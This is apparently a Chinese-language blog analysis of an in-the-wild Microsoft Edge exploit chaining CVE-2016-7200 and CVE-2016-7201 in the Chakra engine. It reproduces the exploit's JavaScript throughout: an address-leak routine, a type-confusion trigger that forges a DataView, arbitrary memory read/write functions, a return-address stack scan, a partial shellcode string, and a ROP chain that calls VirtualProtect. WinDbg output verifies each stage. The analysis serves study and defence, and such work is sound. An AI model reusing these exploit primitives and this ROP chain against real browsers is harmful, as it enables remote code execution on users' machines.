

# 利用过程分析

## 背景介绍
在Malware Don't Need Coffee上看到一个最新的Edge利用，拿出来看看，相应的EK sample和更多信息可以从[这里](http://malware.dontneedcoffee.com/2017/01/CVE-2016-7200-7201.html)获取。

为了简化sample分析过程，可以直接去git上拿[PoC Sample](https://github.com/theori-io/chakra-2016-11)。

## 利用过程
分析以后，会发现sample的利用过程，大致如下：
1.	利用CVE-2016-7200（Array.filter 中的InfoLeak 漏洞）， 泄露出传入对象的地址，这里是整形数组，可以参考PutDataAndGetAddr
2.	利用CVE-2016-7201（FillFromPrototypes中的类型混淆漏洞），将传入的地址所对应的内存混淆成另外一个var dv，参考TriggerFillFromPrototypesBug，这里传入的地址参数恰巧指向上面Array对象x的数据区域，然后，dv通过DataView.getUint32和DataView.setUint32实现任意地址读写
3.	利用这两个漏洞，得到NativeIntArray的虚表地址，通过偏移进一步确定chakra.dll的基址，以及chakra!ScriptSite::Execute函数返回地址
4.	构造Shellcode和ROP，并用ROP入口地址覆盖上面泄露出来的返回地址，使程序跳转到ROP执行
5.	ROP首先调用了VirtualProtect，修改shellcode所在堆区域的protect属性，可读写->可执行，最后程序跳转到shellcode处执行

## 细节剖析
### 先看看CVE-2016-7200，加了一些alert，用于帮助我们看到更多的信息
如果没有修改a的原型的动作，a.filter应该还是返回a本身。增加了这个原型修改以后，会变成每个对象的地址，当然，在X64环境下，每个对象有两个地址，高地址和低地址，各32位。

``` JavaScript
var x = (new Array(56, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0)).slice();
var [hi, lo] = PutDataAndGetAddr(x);

function PutDataAndGetAddr(t)
{
    alert("enter into PutDataAndGetAddr");
    var d = new Array(1,2,3);
    class dummy {
        constructor() {
            return d;
        }
    }
    class MyArray extends Array {
        static get [Symbol.species]() {
            return dummy;
        }
    }
    var a = new Array({}, t, "theori", 7, 7, 7, 7, 7);
    function test(i) {
        return true;
    }
    a.__proto__ = MyArray.prototype;
    alert(a);
    var o = a.filter(test);
    alert(o);
    var h = [];
    for (item in o) {
        var n = new Number(o[item]);
        if (n < 0) {
            n = n + 0x100000000;
        }
        h.push(n);
    }
   print_address_64("Return address of PutDataAndGetAddr", h[3], h[2]);
    return [h[3], h[2]];
}
```

在filter调用前的结果:


在filter调用后的结果:


将结果转成64位地址：


可以看到最后的返回地址是0x2131a027b60，通过WinDBG中，可以看看这个地址所对应的信息。

<pre>
<code>
0:024> dq 0x2131a027b60
00000213`1a027b60  <b><font color="red">00007ff9`6b5838d8</font></b> 00000213`1a1bb040
00000213`1a027b70  00000000`00000000 00000000`00000005
00000213`1a027b80  00000000`00000010 00000213`1a027ba0
00000213`1a027b90  00000213`1a027ba0 00000213`19faf1c0
00000213`1a027ba0  00000010`00000000 00000000`00000012
00000213`1a027bb0  00000000`00000000 <b><font color="red">00000000`00000038</font></b>
00000213`1a027bc0  00000000`00000000 00000000`00000000
00000213`1a027bd0  00000000`00000000 00000000`00000000
</code>
</pre>

因为传入的x是整形数组，通过在windbg中也可以看到相应的信息

<pre>
<code>
0:024> ln poi(0x2131a027b60)
<font color="red">(00007ff9`6b5838d8)   <b>chakra!Js::JavascriptNativeIntArray::`vftable'</b></font>   |  (00007ff9`6b583c28)   chakra!Js::JavascriptArray::`vftable'
Exact matches:
    chakra!Js::JavascriptNativeIntArray::`vftable' = <no type information>

0:024> ?38
Evaluate expression: 56 = 00000000`00000038
</code>
</pre>

这里的0x38恰恰是56，也就是传入的x的数据。而这些数据的起始地址与x object内存地址相差恰好是0x58，这也就是后面会用到的信息。
当然这个结果的验证还可以简单地修改一下x的内容，并查看相应的内存布局。

```JavaScript
var x = (new Array(0xaaaa, 0xaaab, 0xaaac, 0xaaad, 0xaaae, 0xaaaf, 0xaaba, 0xaabb, 0xaabc, 0xaabd, 0xaabe, 0xaabf, 0xaaca, 0xaacb, 0xaacc, 0xaacd)).slice();
```

<pre>
<code>
0:024> dq 1b10f5a7b60
000001b1`0f5a7b60  00007ff9`6b5838d8 000001b1`0f6eb040
000001b1`0f5a7b70  00000000`00000000 00000000`00000005
000001b1`0f5a7b80  00000000`00000010 000001b1`0f5a7ba0
000001b1`0f5a7b90  000001b1`0f5a7ba0 000001b1`0daff1c0
000001b1`0f5a7ba0  00000010`00000000 00000000`00000012
000001b1`0f5a7bb0  00000000`00000000 <b>0000aaab`0000aaaa</b>
000001b1`0f5a7bc0  <b>0000aaad`0000aaac 0000aaaf`0000aaae</b>
000001b1`0f5a7bd0  <b>0000aabb`0000aaba 0000aabd`0000aabc</b>
</code>
</pre>

关于JavascriptNativeIntArray的内存布局，可以用专门的方法进行分析，可以参考《[Exploit Development](http://expdev-kiuhnm.rhcloud.com/)》中[13.1节](http://expdev-kiuhnm.rhcloud.com/2015/05/31/ie10-reverse-engineering-ie/)，关于逆向IE中Array的分析方法。

### 再看看CVE-2016-7201能做什么
```JavaScript
function TriggerFillFromPrototypesBug(lo, hi)
{
    // Type* (which has TypeId)
    x[2] = lo;
    x[3] = hi;
    // +0x3C points to 0 (index 1) for bypassing isDetached check
    x[10] = (lo - 0x38)|0;
    x[11] = hi;
    // buffer length
    x[8] = 0x200;
    // buffer addr
    x[14] = (lo - 0x58)|0;
    x[15] = hi;
    var a = new Array(0x11111111, 0, 0x22222222, 0, 0x33333333, 0, lo, hi, 0x55555555, 0);
    var handler = {
        getPrototypeOf: function(target, name) {
            return a;
        }
    };
    var p = new Proxy([], handler);
    var b = [{}, [], "abc"];
    b.__proto__ = p;
    b.length = 4;
    a.shift.call(b);
    dv = b[2];
}
```

从直观上看，这个函数允许传入一个地址，然后，将结果存放在dv中。dv是什么？与传入的地址有什么关系？
因为我们上面有另外一个漏洞可以泄露出指定对象的地址，这里可以借用一下。

```JavaScript
[hi, lo] = [hi|0, (lo + 0x58)|0];
print_address_64("x_lo_plus_0x58", hi, lo);
TriggerFillFromPrototypesBug(lo, hi);
var [dv_hi, dv_lo] = PutDataAndGetAddr(dv);
print_address_64("address of dv", dv_hi, dv_lo);
```

传入的是x数据区域的地址，TriggerFillFromPrototypesBug执行以后，变量dv就有了值，实测以后会发现：

*dv这个变量的内存地址就是传入的x数据区地址，而在后面使用dv的地方，又将dv当做DataView使用。*

```JavaScript
var dv;
var fdv = new DataView(new ArrayBuffer(8));
...
function SetAddress(addr)
{
    x[14] = addr.low|0;
    x[15] = addr.high|0;
}
function Read32(addr)
{
    SetAddress(addr);
    return new Long(fdv.getUint32.call(dv, 0, true), 0, true);
}
function Read64(addr)
{
    SetAddress(addr);
    return new Long(fdv.getUint32.call(dv, 0, true), fdv.getUint32.call(dv, 4, true), true);
}
function Write32(addr, val)
{
    SetAddress(addr);
    fdv.setUint32.call(dv, 0, val.low|0, true);
}
function Write64(addr, val)
{
    SetAddress(addr);
    fdv.setUint32.call(dv, 0, val.low|0, true);
    fdv.setUint32.call(dv, 4, val.high|0, true);
}

```

所以，x的数据区所对应的那块内存，在这里就成为一个DataView对象的内存布局了。

TriggerFillFromPrototypesBug函数中的这段code：

```JavaScript
// Type* (which has TypeId)
x[2] = lo;
x[3] = hi;
// +0x3C points to 0 (index 1) for bypassing isDetached check
x[10] = (lo - 0x38)|0;
x[11] = hi;
// buffer length
x[8] = 0x200;
// buffer addr
x[14] = (lo - 0x58)|0;
x[15] = hi;
```

本质是在修改DataView对象各个域的值，下面，我们用自己编译的ChakraCore来验证上面的猜测。
因为微软已经将[Chakra](https://github.com/Microsoft/ChakraCore)开源，这样可以自行编译一个ChakraCore，也会有更丰富的symbol，可以使用下面的命令将外部的dll加载到调试进程中。

```
0:004> .reload /f /i C:\Users\admin\Desktop\ChakraCore\ChakraCore.dll=ffffffff
0:004> lm
start             end                 module name
00000000`ffffffff 00000000`ffffffff   ChakraCore   (private pdb symbols)  C:\ProgramData\dbg\sym\ChakraCore.pdb\0AA246FBAE584A8BBE5C233412A3A6051\ChakraCore.pdb
00007ff7`b3e00000 00007ff7`b3e16000   microsoftedgecp   (deferred)

0:004> dt ChakraCore!Js::DataView
   +0x000 __VFN_table : Ptr64 
   +0x008 type             : Ptr64 Js::Type
   +0x010 auxSlots         : Ptr64 Ptr64 Void
   +0x018 objectArray      : Ptr64 Js::ArrayObject
   +0x018 arrayFlags       : Js::DynamicObjectFlags
   +0x01a arrayCallSiteIndex : Uint2B
   +0x020 length           : Uint4B
   +0x028 arrayBuffer      : Ptr64 Js::ArrayBufferBase
   +0x030 byteOffset       : Uint4B
   +0x038 buffer           : Ptr64 UChar
```

参考相应的偏移可以看出DataView相关的域正好与上面给x设置的值是一致的。尤其是x[14]和x[15]就是DataView中buffer的地址，这就使得SetAddress函数可以通过x来任意设置需要读写的位置，实现全局读写。

### 关于info leak

解释一下下面这段code

```JavaScript
var vtable = Read64(new Long(lo - 0x58, hi, true));
var chakraBase = Read64(vtable).sub(0x274C40);
var threadCtxPtr = Read64(chakraBase.add(0x735EA8));
var stackLimit = Read64(threadCtxPtr.add(0x388));
var stack = stackLimit.sub(0xC000).add(10*1024*1024); 
var retPtr = chakraBase.add(0x162A1D);
var retPtrAddr;
for (var i = 8; i < 32 * 1024; i += 8)
{
    var val = Read64(stack.sub(i));
    if (val.equals(retPtr))
    {
        retPtrAddr = stack.sub(i);
        break;
    }
}

```

在脚本执行的线程栈空间中（搜索10M的空间），去查找是否有**00007ff9`6b152a1d**，也就是chakraBase.add(0x162A1D)

因为这个值是调用函数chakra!ScriptSite::Execute的返回值，后面会使用ROP entry来覆盖这个栈上的值，实现Direct Return。

<pre>
<code>
0:012> ub chakra+0x162A1D
chakra!ScriptEngine::ExecutePendingScripts+0x182:
00007ff9`6b1529fa 48895c2468      mov     qword ptr [rsp+68h],rbx
00007ff9`6b1529ff 488d442458      lea     rax,[rsp+58h]
00007ff9`6b152a04 4889442420      mov     qword ptr [rsp+20h],rax
00007ff9`6b152a09 4533c9          xor     r9d,r9d
00007ff9`6b152a0c 4c8d442460      lea     r8,[rsp+60h]
00007ff9`6b152a11 498bd7          mov     rdx,r15
00007ff9`6b152a14 488b4f20        mov     rcx,qword ptr [rdi+20h]
00007ff9`6b152a18 e8f3f10400      call    chakra!ScriptSite::Execute (00007ff9`6b1a1c10)

0:012> u chakra+0x162A1D
chakra!ScriptEngine::ExecutePendingScripts+0x1a5:
<b><font color="red">00007ff9`6b152a1d</font></b> 448bf0          mov     r14d,eax
00007ff9`6b152a20 85c0            test    eax,eax
00007ff9`6b152a22 7820            js      chakra!ScriptEngine::ExecutePendingScripts+0x1cc (00007ff9`6b152a44)
00007ff9`6b152a24 488b8424e8000000 mov     rax,qword ptr [rsp+0E8h]
00007ff9`6b152a2c 4885c0          test    rax,rax
00007ff9`6b152a2f 7413            je      chakra!ScriptEngine::ExecutePendingScripts+0x1cc (00007ff9`6b152a44)
00007ff9`6b152a31 488bd0          mov     rdx,rax
00007ff9`6b152a34 488b4c2458      mov     rcx,qword ptr [rsp+58h]
</code>
</pre>

### 看看shellcode的信息

```JavaScript
var sc = unescape("%u8148%u78ec%u0001%u4c00%u848d%u6824%u0001%u4800…”);
print_address_64("shellcode", shi, slo);
var [shi, slo] = PutDataAndGetAddr(sc);
var shcodeAddr = Read64((new Long(slo|0, shi|0, true).add(0x20)));
alert("shcodeAddr: 0x" + shcodeAddr.toString(16));
```


```
0:026> dq 2096d0d3540
00000209`6d0d3540  00007ff9`6b571390 00000209`6cf04450
00000209`6d0d3550  00000000`00000000 00000000`0000035e
00000209`6d0d3560  00000209`6d03c038 00001434`0000035e
00000209`6d0d3570  00000001`ffffffff 00000209`6d03c020
00000209`6d0d3580  00000000`0000001a 00000209`6cf20000
00000209`6d0d3590  00000209`6cf04240 00007ff9`6b2615a0
00000209`6d0d35a0  00000000`00000000 00000209`6d0d3600
00000209`6d0d35b0  00000000`00000000 00000209`6d0a1200
```

<pre>
<code>
0:026> ln poi(2096d0d3540)
<font color="red">(00007ff9`6b571390)   <b>chakra!Js::CompoundString::`vftable'</b></font>   |  (00007ff9`6b571690)   chakra!Js::ConcatStringN<2>::`vftable'
Exact matches:
    chakra!Js::CompoundString::`vftable' = &lt;no type information>
</code>
</pre>

看来当前的shellcode是一个CompoundString的对象，而其结构可以通过下面的命令看到更为详细信息。

<pre>
<code>
0:026> dt -b chakracore!Js::CompoundString 2096d0d3540
   +0x000 __VFN_table : 0x00007ff9`6b571390 
   +0x008 type             : 0x00000209`6cf04450 
   +0x010 m_pszValue       : (null) 
   +0x018 m_charLength     : 0x35e
   +0x020 lastBlockInfo    : Js::CompoundString::BlockInfo
      <b>+0x000 buffer           : 0x00000209`6d03c038 </b>
      +0x008 charLength       : 0x35e
      +0x00c charCapacity     : 0x1434
   +0x030 directCharLength : 0xffffffff
   +0x034 ownsLastBlock    : 1
   +0x038 lastBlock        : 0x00000209`6d03c020

0:026> dd 00000209`6d03c038
00000209`6d03c038  78ec8148 4c000001 6824848d 48000001
00000209`6d03c048  05e5158d 8d480000 0005b50d 041ae800
00000209`6d03c058  8b4c0000 0168248c 8d4c0000 01702484
00000209`6d03c068  8d480000 0005b315 0d8d4800 00000592
00000209`6d03c078  0003f7e8 0d8d4800 00000586 682494ff
00000209`6d03c088  48000001 8d48c189 0005ab15 2494ff00
00000209`6d03c098  00000170 24848948 00000108 5f0d8d48
00000209`6d03c0a8  ff000005 01682494 89480000 158d48c1
</code>
</pre>

根据上面的数据结构可以看到，shellcode对象偏移0x20正好是一个buffer的指针，这个指针正好指向实际的data，这也就解释了为什么在读取shellcode实际的数据时，需要+0x20的缘故。

### ROP与exploit trigger
```JavaScript
var rop = [
    /*
        chakraBase + 0x1DA2F5           // pop rdi; pop rsi; pop rbx; retn
        shcodeAddr & 0xFF..FFF000       // lpAddress
        0x1000                          // dwSize
        0x40                            // flNewProtect
        chakraBase + 0x1DA2CB           // setup args => call VirtualProtect
        ...                             // 0x30 garbage (6 * uint64)
        0                               // In order to pass check
        ...                             // 0x98 - 0x38 garbage (12 * uint64)
        shcodeAddr                      // Finally return to our shellcode!
    */
    chakraBase.add(0x1DA2F5),
    shcodeAddr.and(new Long(0xFFFFF000, 0xFFFFFFFF, true)),
    new Long(0x1000, 0, true),
    new Long(0x40, 0, true),
    chakraBase.add(0x1DA2CB),
    filler, filler, filler, filler, filler, filler,
    new Long(0, 0, true),
    filler, filler, filler, filler, filler, filler,
    filler, filler, filler, filler, filler, filler,
    shcodeAddr
];
for (var i = 0; i < rop.length; ++i)
{
    Write64(retPtrAddr.add(i * 8), rop[i]);
}

```

注意：因为每一次都是重新启动调试，所以，地址会有所变动，不要疑惑这些事。
这里，因为我们知道RetPtrAddr会被ROP entry覆写，所以，我们对返回地址设置写断点，看看什么地方会触发这个断点。


```
0:028> ba w4 14d53fcc88 ".printf \"overwrite ret address\\n\""
0:028> g
overwrite ret address
chakra!Js::DataView::EntrySetUint32+0x135:
00007ff9`6b4dc4b5 488b03          mov     rax,qword ptr [rbx] ds:00000126`02a2d200=0000012605170000
```
<pre>
<code>
0:012> kn
 # Child-SP          RetAddr           Call Site
00 00000014`d53fb9a0 00007ff9`6b261393 chakra!Js::DataView::EntrySetUint32+0x135
01 00000014`d53fba10 00007ff9`6b12d873 chakra!amd64_CallFunction+0x93
02 00000014`d53fba80 00007ff9`6b12cfb0 chakra!Js::JavascriptFunction::CallFunction&lt;1>+0x83
03 00000014`d53fbae0 00007ff9`6b261393 chakra!Js::JavascriptFunction::EntryCall+0xf0
04 00000014`d53fbb30 00007ff9`6b12ef6d chakra!amd64_CallFunction+0x93
05 00000014`d53fbba0 00007ff9`6b132797 chakra!Js::InterpreterStackFrame::OP_CallCommon&lt;Js::OpLayoutDynamicProfile&lt;Js::OpLayoutT_CallIWithICIndex&lt;Js::LayoutSizePolicy&lt;0> > > >+0x15d
06 00000014`d53fbc40 00007ff9`6b136842 chakra!Js::InterpreterStackFrame::OP_ProfiledCallIWithICIndex&lt;Js::OpLayoutT_CallIWithICIndex&lt;Js::LayoutSizePolicy&lt;0> > >+0xa7
07 00000014`d53fbcc0 00007ff9`6b134aa2 chakra!Js::InterpreterStackFrame::ProcessProfiled+0x132
08 00000014`d53fbd50 00007ff9`6b138b5e chakra!Js::InterpreterStackFrame::Process+0x142
09 00000014`d53fbdb0 00007ff9`6b13a265 chakra!Js::InterpreterStackFrame::InterpreterHelper+0x48e
0a 00000014`d53fc120 00000126`05420e9a chakra!Js::InterpreterStackFrame::InterpreterThunk+0x55
0b 00000014`d53fc170 00007ff9`6b261393 0x00000126`05420e9a
0c 00000014`d53fc1a0 00007ff9`6b12d873 chakra!amd64_CallFunction+0x93
0d 00000014`d53fc200 00007ff9`6b130490 chakra!Js::JavascriptFunction::CallFunction&lt;1>+0x83
0e 00000014`d53fc260 00007ff9`6b134f35 chakra!Js::InterpreterStackFrame::OP_CallI&lt;Js::OpLayoutDynamicProfile&lt;Js::OpLayoutT_CallI&lt;Js::LayoutSizePolicy&lt;0> > > >+0x110
0f 00000014`d53fc2b0 00007ff9`6b134bb0 chakra!Js::InterpreterStackFrame::ProcessUnprofiled+0x315
10 00000014`d53fc340 00007ff9`6b138b5e chakra!Js::InterpreterStackFrame::Process+0x250
11 00000014`d53fc3a0 00007ff9`6b13a265 chakra!Js::InterpreterStackFrame::InterpreterHelper+0x48e
12 00000014`d53fc8d0 00000126`05420f92 chakra!Js::InterpreterStackFrame::InterpreterThunk+0x55
13 00000014`d53fc920 00007ff9`6b261393 0x00000126`05420f92
14 00000014`d53fc950 00007ff9`6b12d873 chakra!amd64_CallFunction+0x93
15 00000014`d53fc9a0 00007ff9`6b19c2ec chakra!Js::JavascriptFunction::CallFunction&lt;1>+0x83
16 00000014`d53fca00 00007ff9`6b19b8b6 chakra!Js::JavascriptFunction::CallRootFunctionInternal+0x104
17 00000014`d53fcaf0 00007ff9`6b246259 chakra!Js::JavascriptFunction::CallRootFunction+0x4a
18 00000014`d53fcb60 00007ff9`6b1a1d41 chakra!ScriptSite::CallRootFunction+0xb5
19 00000014`d53fcc00 <font color="red"><b>00007ff9`6b1ca2f5</b></font> chakra!ScriptSite::Execute+0x131
1a 00000014`d53fcc90 00000000`00000000 chakra!Memory::HeapPageAllocator&lt;Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe5

0:012> ?chakra+0x1DA2F5
Evaluate expression: 140709220623093 =<font color="red"><b> 00007ff9`6b1ca2f5</b></font>
</code>
</pre>

通过上面的调用栈可以看到以下信息：
- 返回地址被覆写的动作是发生在Js::DataView::EntrySetUint32，这个与我们从sample上看到的也是一致的
- 覆写的返回地址是chakra!ScriptSite::Execute，这一点与前面介绍的info leak部分是一致的
- 当chakra!ScriptSite::Execute执行以后，就会跳到ROP的地方

下面可以在Execute的ret指令的地方下断点看看
```
bp chakra+1b1d81 ".printf \"return instruction in ScriptSite::Execute\\n\""
0:012> g
Breakpoint 2 hit
chakra!ScriptSite::Execute+0x171:
00007ff9`6b1a1d81 c3              ret
0:012> kn
 # Child-SP          RetAddr           Call Site
00 00000014`d53fcc88 00007ff9`6b1ca2f5 chakra!ScriptSite::Execute+0x171
01 00000014`d53fcc90 00007ff9`6b1ca2cb chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe5
02 00000014`d53fccb0 00000126`05297038 chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xbb
03 00000014`d53fcd50 00000000`00000000 0x00000126`05297038
```
<pre>
<code>
0:012> dq rsp
00000014`d53fcc88  <font color="red"><b>00007ff9`6b1ca2f5</b></font> 00000126`05297000
00000014`d53fcc98  00000000`00001000 00000000`00000040
00000014`d53fcca8  00007ff9`6b1ca2cb 00000000`00000000
00000014`d53fccb8  00000000`00000000 00000000`00000000
00000014`d53fccc8  00000000`00000000 00000000`00000000
00000014`d53fccd8  00000000`00000000 00000000`00000000
00000014`d53fcce8  00000126`052fbfd0 00000000`00000000
</code>
</pre>

Return以后，就可以直接进入ROP

```
0:012> u rip l4
chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe5:
00007ff9`6b1ca2f5 5f              pop     rdi
00007ff9`6b1ca2f6 5e              pop     rsi
00007ff9`6b1ca2f7 5b              pop     rbx
00007ff9`6b1ca2f8 c3              ret
0:012> dq rsp
00000014`d53fcc90  00000126`05297000 00000000`00001000
00000014`d53fcca0  00000000`00000040 00007ff9`6b1ca2cb
```

执行完三个pop以后，可以看到相应的寄存器中，已经保存了相应的值，这里，RDI存放的是shellcode的地址

```
0:012> r
rax=0000000000000000 rbx=0000000000000040 rcx=00000014d53fcc28
rdx=0000000000008040 rsi=0000000000001000 rdi=0000012605297000
rip=00007ff96b1ca2f8 rsp=00000014d53fcca8 rbp=00000014d53fcf41
 r8=00000000ffff8000  r9=0000000000000800 r10=0000000000001000
r11=0000000000000080 r12=0000012602a2d200 r13=0000012602a50570
r14=0000000000000000 r15=0000012605192f40
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe8:
00007ff9`6b1ca2f8 c3              ret
```

执行最后一个Return以后，会来到这里，这里不像传统的ROP，但是，目的都是一样的，修改指定地址的保护权限。

```
0:012> uf 00007ff96b1ca2cb
chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages:
00007ff9`6b1ca210 4c8bdc          mov     r11,rsp
00007ff9`6b1ca213 4d894b20        mov     qword ptr [r11+20h],r9
00007ff9`6b1ca217 4d894318        mov     qword ptr [r11+18h],r8
00007ff9`6b1ca21b 49895310        mov     qword ptr [r11+10h],rdx
00007ff9`6b1ca21f 49894b08        mov     qword ptr [r11+8],rcx
00007ff9`6b1ca223 53              push    rbx
00007ff9`6b1ca224 56              push    rsi
00007ff9`6b1ca225 57              push    rdi
00007ff9`6b1ca226 4881ec80000000  sub     rsp,80h
00007ff9`6b1ca22d 49c743a8feffffff mov     qword ptr [r11-58h],0FFFFFFFFFFFFFFFEh
00007ff9`6b1ca235 488bfa          mov     rdi,rdx
00007ff9`6b1ca238 48f7c2ff0f0000  test    rdx,0FFFh
00007ff9`6b1ca23f 0f85b4000000    jne     chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x35:
00007ff9`6b1ca245 498bc9          mov     rcx,r9
00007ff9`6b1ca248 488b5110        mov     rdx,qword ptr [rcx+10h]
00007ff9`6b1ca24c 483bfa          cmp     rdi,rdx
00007ff9`6b1ca24f 0f82a4000000    jb      chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x45:
00007ff9`6b1ca255 488b4920        mov     rcx,qword ptr [rcx+20h]
00007ff9`6b1ca259 498bf0          mov     rsi,r8
00007ff9`6b1ca25c 492bc8          sub     rcx,r8
00007ff9`6b1ca25f 48c1e10c        shl     rcx,0Ch
00007ff9`6b1ca263 8bc7            mov     eax,edi
00007ff9`6b1ca265 2bc2            sub     eax,edx
00007ff9`6b1ca267 483bc1          cmp     rax,rcx
00007ff9`6b1ca26a 0f8789000000    ja      chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x60:
00007ff9`6b1ca270 41b830000000    mov     r8d,30h
00007ff9`6b1ca276 498d53b0        lea     rdx,[r11-50h]
00007ff9`6b1ca27a 488bcf          mov     rcx,rdi
00007ff9`6b1ca27d ff150d824000    call    qword ptr [chakra!_imp_VirtualQuery (00007ff9`6b5d2490)]
00007ff9`6b1ca283 4885c0          test    rax,rax
00007ff9`6b1ca286 7471            je      chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x78:
00007ff9`6b1ca288 48c1e60c        shl     rsi,0Ch
00007ff9`6b1ca28c 4839742460      cmp     qword ptr [rsp+60h],rsi
00007ff9`6b1ca291 7266            jb      chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x83:
00007ff9`6b1ca293 8b44246c        mov     eax,dword ptr [rsp+6Ch]
00007ff9`6b1ca297 398424c8000000  cmp     dword ptr [rsp+0C8h],eax
00007ff9`6b1ca29e 7559            jne     chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0x90:
00007ff9`6b1ca2a0 8b9c24c0000000  mov     ebx,dword ptr [rsp+0C0h]
00007ff9`6b1ca2a7 8bc3            mov     eax,ebx
00007ff9`6b1ca2a9 83e070          and     eax,70h
00007ff9`6b1ca2ac 0f95c2          setne   dl
00007ff9`6b1ca2af 0fbae31e        bt      ebx,1Eh
00007ff9`6b1ca2b3 0f93c1          setae   cl
00007ff9`6b1ca2b6 84d1            test    cl,dl
00007ff9`6b1ca2b8 753f            jne     chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xe9 (00007ff9`6b1ca2f9)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xaa:
00007ff9`6b1ca2ba 85c0            test    eax,eax
00007ff9`6b1ca2bc 744c            je      chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xfa (00007ff9`6b1ca30a)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xae:
00007ff9`6b1ca2be b201            mov     dl,1

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xb0:
00007ff9`6b1ca2c0 488d4c2430      lea     rcx,[rsp+30h]
00007ff9`6b1ca2c5 e88e370000      call    chakra!Memory::AutoEnableDynamicCodeGen::AutoEnableDynamicCodeGen (00007ff9`6b1cda58)
00007ff9`6b1ca2ca 90              nop
00007ff9`6b1ca2cb 4c8d4c2438      lea     r9,[rsp+38h]
00007ff9`6b1ca2d0 448bc3          mov     r8d,ebx   <--- parameter 3
00007ff9`6b1ca2d3 488bd6          mov     rdx,rsi   <--- parameter 2
00007ff9`6b1ca2d6 488bcf          mov     rcx,rdi   <--- parameter 1
00007ff9`6b1ca2d9 ff15b9814000    call    qword ptr [chakra!_imp_VirtualProtect (00007ff9`6b5d2498)]   <--- call VirtualProtect
00007ff9`6b1ca2df 8bd8            mov     ebx,eax
00007ff9`6b1ca2e1 807c243000      cmp     byte ptr [rsp+30h],0
00007ff9`6b1ca2e6 0f8502080f00    jne     chakra!Js::MissingPropertyTypeHandler::IsObjTypeSpecEquivalent+0x5237e (00007ff9`6b2baaee)  Branch

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xdc:
00007ff9`6b1ca2ec 8bc3            mov     eax,ebx

chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xde:
00007ff9`6b1ca2ee 4881c480000000  add     rsp,80h
00007ff9`6b1ca2f5 5f              pop     rdi
00007ff9`6b1ca2f6 5e              pop     rsi
00007ff9`6b1ca2f7 5b              pop     rbx
00007ff9`6b1ca2f8 c3              ret
```

从上面的call VirtualProtect来看，原先保留的rdi,rsi,rbx是用做其前三个参数的。

```C
BOOL WINAPI VirtualProtect(
  _In_  LPVOID lpAddress,
  _In_  SIZE_T dwSize,
  _In_  DWORD  flNewProtect,
  _Out_ PDWORD lpflOldProtect
);
```

在执行VirtualProtect的前后，看看shellcode 地址的属性是不是发生了变化

```
0:012> bp 00007ff9`6b1ca2d9 ".printf \"call VirtualProtect\\n\""
0:012> g
call VirtualProtect
chakra!Memory::HeapPageAllocator<Memory::PreReservedVirtualAllocWrapper>::ProtectPages+0xc9:
00007ff9`6b1ca2d9 ff15b9814000    call    qword ptr [chakra!_imp_VirtualProtect (00007ff9`6b5d2498)] ds:00007ff9`6b5d2498={EShims!NS_ACGLockdownTelemetry::APIHook_VirtualProtect (00007ff9`7cc73080)}
```

查看调用VirtualProtect之前的shellcode address属性

<pre>
<code>
0:012> !address rdi
Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
Mapping stack trace database regions...
Mapping activation context regions...

Usage:                  &lt;unknown&gt;
Base Address:           00000126`05290000
End Address:            00000126`0529d000
Region Size:            00000000`0000d000 (  52.000 kB)
State:                  00001000          MEM_COMMIT
Protect:                00000004          <b>PAGE_READWRITE</b>
Type:                   00020000          MEM_PRIVATE
Allocation Base:        00000126`05290000
Allocation Protect:     00000004          PAGE_READWRITE
Content source: 1 (target), length: 1000
</code>
</pre>

单步执行VirtualProtect

```
0:012> p
